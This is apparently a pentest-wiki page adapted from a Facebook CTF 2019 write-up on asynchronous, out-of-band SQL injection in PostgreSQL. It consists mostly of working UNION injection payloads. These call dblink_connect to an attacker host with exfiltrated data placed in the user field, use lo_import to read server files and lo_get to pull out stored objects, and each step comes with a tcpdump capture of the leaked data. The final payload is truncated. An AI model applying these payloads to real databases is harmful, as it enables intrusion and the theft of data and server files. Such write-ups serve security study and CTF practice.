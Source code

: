 # dblink/lo\_import data exfiltration

**This is an example of how to exfiltrate data loading files in the database with `lo_import` and exfiltrate them using `dblink_connect`.**

## **Preparing the exfiltration server/**Asynchronous SQL Injection

**Extracted from:** [**https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md**](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)\*\*\*\*

Because the `pg_sleep` also doesn't cause delay, we can safely assume if query execution occurs in the background or asynchronously.

Normally, `dblink_connect` can be used to open a persistent connection to a remote PostgreSQL database \(e.g. `SELECT dblink_connect('host=HOST user=USER password=PASSWORD dbname=DBNAME')`\). Because we can control the parameter of this function, we can perform SQL Server Side Request Forgery to our own host. That means, we can perform Out-of-Band SQL Injection to exfiltrate data from SQL query results. At least, there are two ways to do this:

1. Set up a **DNS server** and then trigger the connection to `[data].our.domain` so that we can see the data in the log or in the DNS network packets.
2. Set up a **public PostgreSQL server, monitor the incoming network packets to PostgreSQL port**, and then trigger a connection to our host with exfiltrated data as `user`/`dbname`. By **default**, PostgreSQL doesn't use SSL for communication so we can see `user`/`dbname` as a **plain-text** on the network.

The **second method is easier** because we don't need any domain. We only need to set up a server with a public IP, install PostgreSQL, set the PostgreSQL service to listen to \*/0.0.0.0, and run a network dumper \(e.g. tcpdump\) to monitor traffic to the PostgreSQL port \(5432 by default\).

To set PostgreSQL so that it will **listen to the public**, set `listen_addresses` in `postgresql.conf` to `*`.

```text
listen_addresses = '*'
```

To monitor incoming traffic, run `tcpdump` to monitor port 5432.

```text
sudo tcpdump -nX -i eth0 port 5432
```

To see if we get a connection from the target, we can try using this query:

```text
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=farisv password=postgres dbname=hellofromfb')) --
```

If successful, we get a piece of network packet with readable `user` and `dbname`.

```text
17:14:11.267060 IP [54.185.163.254.50968] > [REDACTED]: Flags [P.], seq 1:43, ack 1, win 229, options [nop,nop,TS val 970078525 ecr 958693110], length 42
    0x0000:  4500 005e 9417 4000 2706 248c 36b9 a3fe  E..^..@.'.$.6...
    0x0010:  9de6 2259 c718 2061 5889 142a 9f8a cb5d  .."Y...aX..*...]
    0x0020:  8018 00e5 1701 0000 0101 080a 39d2 393d  ............9.9=
    0x0030:  3924 7ef6 0000 002a 0003 0000 7573 6572  9$~....*....user
    0x0040:  0066 6172 6973 7600 6461 7461 6261 7365  .farisv.database
    0x0050:  0068 656c 6c6f 6672 6f6d 6662 0000       .hellofromfb.
```

Then, we can **continue to extract the database using several PostgreSQL queries**. Note that for each query result that contains whitespaces, we need to convert the result to **hex/base64** with `encode` function or replace the whitespace to other character with `replace` function because it will cause an execution error during `dblink_connect` process.

Get a **list** of **schemas**:

```text
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(schema_name,':') FROM information_schema.schemata) || ' password=postgres dbname=postgres')) --
```

```text
17:36:46.538178 IP 54.185.163.254.51018 > [REDACTED]: Flags [P.], seq 1:70, ack 1, win 229, options [nop,nop,TS val 971433789 ecr 960048322], length 69
    0x0000:  4500 0079 ecd5 4000 2706 cbb2 36b9 a3fe  E..y..@.'...6...
    0x0010:  9de6 2259 c74a 2061 1e74 4769 b404 803d  .."Y.J.a.tGi...=
    0x0020:  8018 00e5 2710 0000 0101 080a 39e6 e73d  ....'.......9..=
    0x0030:  3939 2cc2 0000 0045 0003 0000 7573 6572  99,....E....user
    0x0040:  0070 7562 6c69 633a 696e 666f 726d 6174  .public:informat
    0x0050:  696f 6e5f 7363 6865 6d61 3a70 675f 6361  ion_schema:pg_ca
    0x0060:  7461 6c6f 6700 6461 7461 6261 7365 0070  talog.database.p
    0x0070:  6f73 7467 7265 7300 00                   ostgres.
```

Get a **list** of **tables** in current schema:

```text
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(tablename, ':') FROM pg_catalog.pg_tables WHERE schemaname=current_schema()) || ' password=postgres dbname=postgres')) --
```

```text
17:38:30.515438 IP 54.185.163.254.51026 > [REDACTED]: Flags [P.], seq 1:42, ack 1, win 229, options [nop,nop,TS val 971537775 ecr 960152304], length 41
    0x0000:  4500 005d f371 4000 2706 c532 36b9 a3fe  E..].q@.'..26...
    0x0010:  9de6 2259 c752 2061 8dd4 e226 24a3 a5c5  .."Y.R.a...&$...
    0x0020:  8018 00e5 fe2b 0000 0101 080a 39e8 7d6f  .....+......9.}o
    0x0030:  393a c2f0 0000 0029 0003 0000 7573 6572  9:.....)....user
    0x0040:  0073 6561 7263 6865 7300 6461 7461 6261  .searches.databa
    0x0050:  7365 0070 6f73 7467 7265 7300 00         se.postgres.
```

**Count** the **rows** in `searches` table.

```text
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT COUNT(*) FROM searches) || ' password=postgres dbname=postgres')) --
```

```text
17:42:39.511643 IP 54.185.163.254.51034 > [REDACTED]: Flags [P.], seq 1:35, ack 1, win 229, options [nop,nop,TS val 971786760 ecr 960401280], length 34
    0x0000:  4500 0056 7982 4000 2706 3f29 36b9 a3fe  E..Vy.@.'.?)6...
    0x0010:  9de6 2259 c75a 2061 5ec0 7df0 8611 357d  .."Y.Z.a^.}...5}
    0x0020:  8018 00e5 f855 0000 0101 080a 39ec 4a08  .....U......9.J.
    0x0030:  393e 8f80 0000 0022 0003 0000 7573 6572  9>....."....user
    0x0040:  0030 0064 6174 6162 6173 6500 706f 7374  .0.database.post
    0x0050:  6772 6573 0000                           gres.
```

It looks like it only has one empty table in the current schema and the flag is not in the database. We may really need to exfiltrate data from `/var/lib/postgresql/data/secret`. Unfortunately, if we try to use `pg_read_file` or `pg_read_binary_file` to read the file, we will not get an incoming connection so that the current user may not have permission to use these functions.

### More info of asynchronous SQLInjection with postdresql

* [https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

## **Exfiltrating large object contents**

It's possible to read file using large objects \([https://www.postgresql.org/docs/11/lo-funcs.html](https://www.postgresql.org/docs/11/lo-funcs.html)\). We can use `lo_import` to load the contents of the file into the `pg_largeobject` catalog. If the query is success, we will get the object's `oid`.

```text
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT lo_import('/var/lib/postgresql/data/secret')) || ' password=postgres dbname=postgres')) --
```

```text
17:54:51.963925 IP 54.185.163.254.51046 > [REDACTED]: Flags [P.], seq 1:39, ack 1, win 229, options [nop,nop,TS val 972519214 ecr 961133706], length 38
    0x0000:  4500 005a 071f 4000 2706 b188 36b9 a3fe  E..Z..@.'...6...
    0x0010:  9de6 2259 c766 2061 26fb c8a7 bbb3 fe01  .."Y.f.a&.......
    0x0020:  8018 00e5 2272 0000 0101 080a 39f7 772e  ...."r......9.w.
    0x0030:  3949 bc8a 0000 0026 0003 0000 7573 6572  9I.....&....user
    0x0040:  0032 3436 3638 0064 6174 6162 6173 6500  .24668.database.
    0x0050:  706f 7374 6772 6573 0000                 postgres..
```

We got 24668 as `oid` so that means we can use `lo_import` function. Unfortunately, we won't get any results if we try to get the content of large object using `lo_get(24668)` or directly access the `pg_largeobject` catalog. **It looks like the current user doesn't have permission to read the content of new objects.**

After reading the documentation of large objects in PostgreSQL, we can find out that **large objects can has ACL** \(Access Control List\). That means, if there is an old object with an ACL that allows current user to read it, then we can exfiltrate that object's content.

We can get a list of available large object's `oid` by extracting from `pg_largeobject_metadata`.

```text
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(cast(l.oid as text), ':') FROM pg_largeobject_metadata l) || ' password=postgres dbname=postgres')) --
```

```text
18:06:57.172285 IP 54.185.163.254.51052 > [REDACTED]: Flags [.], seq 1:2897, ack 1, win 229, options [nop,nop,TS val 973244413 ecr 961858878], length 2896
    0x0000:  4500 0b84 7adf 4000 2606 339e 36b9 a3fe  E...z.@.&.3.6...
    0x0010:  9de6 2259 c76c 2061 8d76 e934 10c9 3972  .."Y.l.a.v.4..9r
    0x0020:  8010 00e5 a66d 0000 0101 080a 3a02 87fd  .....m......:...
    0x0030:  3954 cd3e 0000 1c94 0003 0000 7573 6572  9T.>........user
    0x0040:  0031 3635 3731 3a31 3634 3339 3a31 3635  .16571:16439:165
    0x0050:  3732 3a31 3634 3431 3a31 3634 3432 3a31  72:16441:16442:1
    0x0060:  3733 3732 3a31 3634 3434 3a31 3634 3435  7372:16444:16445
    0x0070:  3a31 3831 3534 3a31 3733 3830 3a31 3737  :18154:17380:177
    0x0080:  3038 3a31 3635 3737 3a31 3634 3530 3a31  08:16577:16450:1
    0x0090:  3634 3531 3a31 3634 3532 3a31 3634 3533  6451:16452:16453

.....
.....
.....
```

We got a bunch of `oid`s. We can try using `lo_get` to load object's content. For example, `lo_get(16439)` will load the content of `/etc/passwd`. Because the result of `lo_gets` is `bytea`, we need to convert it to `UTF8` so that it can be appended in the query.

We can try to load some objects with lowest `oid` to find out if the flag file has been loaded before. The flag file object does exist with `oid` 16444. There are no whitespaces in the flag so we can just display it as is.

To load the flag:

```text
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT convert_from(lo_get(16444), 'UTF8')) || ' password=postgres dbname=p
```

### More info of oid:

* [https://balsn.tw/ctf\_writeup/20190603-facebookctf/\#hr\_admin\_module](https://balsn.tw/ctf_writeup/20190603-facebookctf/#hr_admin_module)
* [https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

